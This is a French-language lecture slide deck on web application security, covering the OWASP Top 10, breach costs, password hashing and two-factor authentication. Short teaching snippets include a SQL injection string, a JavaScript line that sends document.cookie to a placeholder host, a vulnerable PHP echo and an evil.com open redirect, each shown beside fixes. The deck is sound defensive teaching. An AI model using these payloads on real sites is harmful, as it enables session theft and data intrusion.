









# Sécurité des applications WEB

## Risques et menaces

Par [Valentin Brosseau](https://github.com/c4software) / [@c4software](http://twitter.com/c4software)

---

## Pour vous, la sécurité c’est quoi ?

---

## Des découvertes de failles tous les jours !

---

### Des exemples en tête ?

---



---


---


---


---



---



---



---



---


---

[Top50 du nombre de vulnérabilités par le nombre de produits des marques](https://www.cvedetails.com/top-50-vendors.php)

---

### Comment se tenir à jour ?

#### Prévenir plutôt que guérir…

---

### Des sites à surveiller

- [US CERT (LA SOURCE)](https://www.us-cert.gov/)
- [The Hacker News](http://thehackernews.com/)
- Zataz
- [Undernews](https://www.undernews.fr/)
- [Reddit NetSec](https://www.reddit.com/r/netsec/)
- Next INpact (~Payant)
- Google Actu

Vous en avez d’autres en tête ?

---

#### Vous êtes la première ligne d’informations

Par deux, collecter une actualité récente « sur un problème de sécurités ».


Lien : [https://forms.gle/zXBhF61uKxtHh6Ma7](https://forms.gle/zXBhF61uKxtHh6Ma7)

---

### Le prix de la sécurité

- Impact fonctionnel
- Limitation de l’expérience utilisateur (UX)
- Impact financier

---

### Les facteurs d’expositions



---

#### La sécurité informatique dans une application c’est un « équilibre »

---

### L’insécurité à un coût

À votre avis ?

---

# 2.86 Millions d’euros

Estimation des coûts pour une entreprise à chaque incident de vol de données en France

Source: Cost Of Data Breach \- Symantec

---

### Un exemple… Facebook

---


---


---

### Un impact qui peut-être globalisé

[https://twitter.com/awlnx/status/1445073290708533258?s=09](https://twitter.com/awlnx/status/1445073290708533258?s=09)

---

### Et si je ne fais rien !?

- Volontaire !
- Involontaire ?

---



---

### Une petite histoire d'imprimante…

---

### Intégrer la sécurité à toutes les étapes

La sécurité c’est un état d’esprit à intégrer.

C’est aussi votre métier

- Réseau ?
- Développeur ?
- À votre avis ? Qui doit travailler la sécurité ?

---

### Les deux!

---


---

### Améliorer la sécurité

- Dès la conception
- Comprendre et avoir en tête les règles

---

## Les grandes catégories à connaître

- Les mots de passe (multi-facteurs, complexité, hashage).
- Les failles dans le code (injections, XSS, CSRF, etc.).
- Les failles dans les configurations (serveur, application, etc.).
- Le social engineering (le maillon faible, l'humain).

---

## Assurer la qualité

s'assurer une qualité continue du code

- 10 règles à connaitre (OWASP).
- Des tests unitaires.
- Une analyse automatique du code (SonarQube).

---

## L'authentification, un point clé

- **Mots de passe** : Complexité, hachage, salage.
- **Authentification à plusieurs facteurs** : Double authentification, biométrie, OTP.
- **Sécurisation des mots de passe** : Bcrypt, Argon2, Scrypt.
- **Sécurisation des sessions** : JWT, Cookies sécurisés.
- **Authentification unique** : OAuth, OpenID (SSO, Single Sign-On).

---

## 10 grandes catégories

- **Injection** ;
- **Violation de Gestion d’Authentification et de Session** ;
- **Cross-Site Scripting (XSS)** ;
- **Références directes non sécurisées à un objet** ;
- **Mauvaise configuration Sécurité** ;
- **Exposition de données sensibles** ;
- **Manque de contrôle d’accès au niveau fonctionnel** ;
- **Falsification de requête intersite (CSRF)** ;
- **Utilisation de composants avec des vulnérabilités connues** ;
- **Redirections et Renvois non validés**.

---

<fieldset>
  <legend>Le risque, la multiplication des failles</legend>
  <p>
  Plus vous avez de failles, plus vous avez de risques. C'est là que la sécurité devient un enjeu majeur. Car plus le nombre de failles est importantes plus <b>la surface d'attaque</b> est grande.
  </p>
</fieldset>

---

### Open Web Application Security Project (OWASP)

#### Les dix risques par ordre de dangerosité

---

### Le Top10 Web

---

### L'injection

Risque d’injection SQL, Shell...

---

### La défaillance cryptographique

Risque de casser / usurper une authentification ou une session. Comprends notamment le vol de session ou la récupération de mots de passe.

- Données sensibles en claire.
- Mots de passe en claire.
- Mots de passe mal hachés.

---

### Conception non sécurisée / Exposition de données sensibles

Conception d'une application sans prise en compte de la sécurité. 

- Données en claire.
- Manque de contrôle d'accès.
- Manque de chiffrement (HTTPS). 
- Manque de contôle de saisie.
- Manque de contrôle de type (XSS, CSRF).

---

### Mauvaise configuration de la sécurité

Manque de validation des types de paramètres, accès trop facile aux ressources non accessibles au public (cloud), configuration incomplète ou trop permissive, messages d’erreurs trop détaillés.

- Accès à des ressources non publiques.
- Messages d'erreurs trop détaillés.
- Filtrage absent ou incomplet (filter_input, strip_tags, htmlspecialchars, htmlentities, etc.).

---

### Utilisation de composants avec des vulnérabilités connues

Utilisation de composants tiers vulnérables.

- CMS non à jour.
- Librairies non à jour.
- Apache non à jour.
- PHP non à jour.
- MySQL non à jour.

---

### Identification et authentification de mauvaise qualité

Applications n’exécutent pas de manière correcte les fonctions liées à la gestion des sessions ou à l’authentification des utilisateurs

- Absence de double authentification.
- Absence de règles de mots de passe (complexité, durée de vie, longueur, etc).
- Mot de passe par défaut (admin/admin, root/root).
- Utilisation d'id dans l'url (session hijacking).

---

### Manque d’intégrité des données et du logiciel

Cette catégorie englobe les codes et infrastructures qui ne sont pas protégés contre les violations d’intégrité.

- Absence de vérification de l'intégrité des données (validation d'une mise à jour).
- Absence de vérification de l'intégrité du logiciel (signature, hashage, etc).
- Rejeu de requêtes possibles (absence de CSRF).

---

### Absence de logs serveur et de surveillance

Absence de logs serveur et de surveillance des activités de l’application.

- Absence de logs serveur.
- Absence de logs applicatifs.
- Manque de supervision.

---

### Falsification de requête côté serveu

Elle permet à un hacker d’inciter l’application côté serveur à envoyer des requêtes à un endroit non prévu. 

Le serveur est donc capable de faire des requêtes à des endroits non prévus (depuis le coeur de l'application).

---



---

L'objectif est souvent de ralentir l'attaquant. Afin de le décourager.

---

#### Avec OWASP on parle de

### Vulnérabilité, et non de risque

---

### Mais, une faille c’est quoi ?



---

### Les types de failles

- L’humain (Social Engineering)
- D'accès (physique)
- Applicatif (Hack)
- L’argent (à quel montant une personne vous donne l’information ?)

---

### Le Social Engineering

Les gens sont souvent trop confiants.

[Exemple SECTF à la DefCon](https://www.youtube.com/watch?v=-FSLaHKoCNE)

[Call Recreation (@5min, @11min30)](https://share.vidyard.com/watch/i46XF6N6rpR9KMaorihFQw)

---

### Les outils autour d’OWASP

- [OWASP Juice Shop (Formation, JavaScript)](https://owasp.org/www-project-juice-shop/)
- WebGoat (Formation, Java + Web)
- WebScarab (Audit)
- OWASP Testing guide (Guide pour voir le niveau de sécu)
- OWASP Code Review guide (Méthode d’audit)

---

Un instant ✋

---

Les mots de passe

🔐

---

Comment les sauvegardez-vous en base de données ?

---

Crypter ≠ Hasher

---

Quelle est la différence ?

---

- Crypter => Réversible (comme Canal+).
- Hasher => Non réversible (comme le steak haché).

---

### On connait les failles

#### Comment on les corrige ?

---

## Les failles

OWASP donne la liste des grandes catégories de failles. Entrons dans le détail technique.

---

### L'Injection

```sql
SELECT * FROM client WHERE id='" . $_GET["id"] . "'
```

```
http://exemple.com/liste?id='or '1'='1
```

---

### Correction

```php
$stmt = $pdo->prepare("SELECT * FROM client WHERE id=?");
$stmt->bindParam(1, $_GET["id"]);
$stmt->execute();
```

---

### Accès non autorisé à une session

```
http://exemple.com/?jsessionid=A2938298D293
```

---

Vol du cookie de session

```javascript
// Exemple de vol d'un cookie de session en JavaScript
var img = new Image();
img.src = "http://exemple.com/?jsessionid=" + document.cookie;
document.body.appendChild(img);
```

---

### Cross-Site Scripting (XSS)

Exécution de code JavaScript sans validation.

- XSS Stocké (base de données).
- XSS Réfléchi (URL / Lien).

---

```html
Votre Nom : <input type="text" name="nom" value="" />
```

```js
echo "Bonjour " . $_POST['nom'];
```

---

### A4 - Références directes non sécurisées à un objet

```
http://exemple.com/liste?mode=client
```

Si je change client par … admin ?

---

```sql
SELECT * FROM client where mode=?
```

```php
$stmt->bindParam(1, $mode);
```

---

- Toujours valider les entrées utilisateurs.
- Toujours vérifier les droits de l'utilisateur.

```php
if ($_SESSION['mode'] == 'client') {
    // On peut charger la ressource
} else if ($_SESSION['mode'] == 'admin') {
    // On peut charger la ressource
} else {
    // On ne peut pas charger la ressource
}
```


---

### Mauvaise configuration Sécurité

- Console d’administration disponible sans authentification en ligne
- Listage des répertoires ([Exemple](https://www.google.fr/search?dcr=0&q=intitle%3A%22Index%20of%22))
- Exemples de code non supprimés

---

### Exposition de données sensibles

- Espace client sans SSL.
- Mot de passe en clair (**ou en MD5**) dans la base de données.
- Sauvegarde de données inutiles.
- Données sensibles dans les logs.
- Données sensibles en clair dans la base de données.

---

- Utilisation de HTTPS (SSL/TLS).

```php
password_hash('admin', PASSWORD_DEFAULT);
password_verify('admin', $hash);
```

---

### Manque de contrôle d’accès au niveau fonctionnel

- Page d’admin accessible avec un compte utilisateur
- Mode non filtré (similaire à l’exemple mode={client,admin})

---

Condition d'accès dans le code

```php
if(SessionUtilisateur::estAdmin()) {
    // On peut charger la ressource
} else {
    // On ne peut pas charger la ressource
}
```

---

### Falsification de requête intersite (CSRF)

- Rejeu de requête déjà joué.
- Attaque de type brute force.
- Exécution de requête à l’insu de l’utilisateur (exemple : déconnexion / connexion sur un site tierce).

---

#### Comment le bloquer ?

Ajoutez un identifiant/jeton dans la requête, unique et non réutilisable

⚠️ Parlons-en !

---

Ajouter un jeton unique dans les formulaires.

```php
<input type="hidden" name="_token" value="{{ csrf_token() }}">

// Côté PHP
if (isset($_POST['_token']) && $_POST['_token'] == $_SESSION['_token']) {
    // On peut traiter la requête
} else {
    die();
}
```

---

### Utilisation de composants avec des vulnérabilités connues

- CMS non à jour.
- Apache non patchés.
- Librairies XYZ non à jour.
- PHP non à jour.
- MySQL non à jour.

---

### Redirections et Renvois non validés

- Utilisation de votre site comme « masque » dans du phishing

```
http://www.shop-vdt.com/login.php?goto=evil.com/login
```

[En vidéo](https://www.youtube.com/watch?v=ibFs8FZxzu4)

---

### OWASP un classement qui évolue


[Source](https://owasp.org/www-project-top-ten/)

---

## Zoom sur les mots de passe

- Un mot de passe ne doit jamais être stocké en claire.
- Un mot de passe doit être haché (non réversible).
- Un mot de passe doit être salé (ajout d’une chaîne aléatoire).
- Un mot de passe seul n'est souvent pas suffisant (Double authentification).

---

## Principes de base


---

## Le sel

- Peut-être différent pour chaque utilisateur.
- Peut-être global pour tous les utilisateurs.

---

## Le bcrypt

- Intègre le sel.
- Intègre un coût (nombre d’itération).
- Intègre un hachage (SHA-256).

---

<fieldset>
  <legend>Les mots de passe</legend>
  <p>
    Un mot de passe ne doit jamais être stocké en claire. Il doit être haché (non réversible) et salé (ajout d’une chaîne aléatoire).
  </p>

  <p>
    Le sel peut-être différent pour chaque utilisateur ou global pour tous les utilisateurs. Celui-ci doit être placé avant ou après le mot de passe, il sera utilisé également pour vérifier le mot de passe.
  </p>

  <p>
    Le bcrypt est un algorithme de hachage qui intègre le sel, le coût et le hachage (SHA-256).
  </p>
</fieldset>

---

## Plusieurs formes d'authentification

- **Mémorielle** qui représente une chose que l'intéressé connaît (**un secret**),
- **Matérielle** qui se réfère à quelque chose qu'il possède (**un objet**),
- **Corporelle** qui utilise un trait physique de l'utilisateur (**une biométrie**).

---

## La double authentification

- **Mot de passe :** chaîne de caractère, chiffre, symbole.
- **Application :** OTP (One Time Password) : SMS, Google Authenticator, Authy, Yubikey.
- **Objet physique :** U2F (Universal 2nd Factor) : Clé USB, Yubikey.
- **Biométrie :** Empreinte digitale, Reconnaissance faciale.

---

- Permets de sécuriser les mots de passe en ajoutant une couche de sécurité supplémentaire.
- Via un secret partagé entre la personne **physique** et le site.

---

## Étape 2 : Le réseau

---


---

### IPS (Intrusion Prevension Systeme)

- Bloque **automatiquement** les attaques
- Non fiable à 100%
- Peu discret

---

### IDS (Intrusion Detection Systeme)

- Analyse
- Repère
- Averti


---

### Comment réduire le risque ?

---

- Sensibilisations / Formations
- Revue de code
- Tests d’intrusions
- Sécurité lors du recrutement
- Sécurité dès la conception du projet
- Suivi des bonnes pratiques (ex. OWASP)

---

### Pourquoi il faut se battre (en interne) ?

- Résistance au changement
- ERP / CMS
- La sécurité est vue comme un frein, pas une fonctionnalité
- Déni de la réalité
- Multitude de librairies
- Développement externe (presta, stagiaires …)

---

### Se former

#### En continu

- [Le Hack](https://lehack.org/fr) / [Hack In Paris](https://hackinparis.com/)
- Internet
- Appliquer les bonnes pratiques tout le temps !

---

### Des questions ?
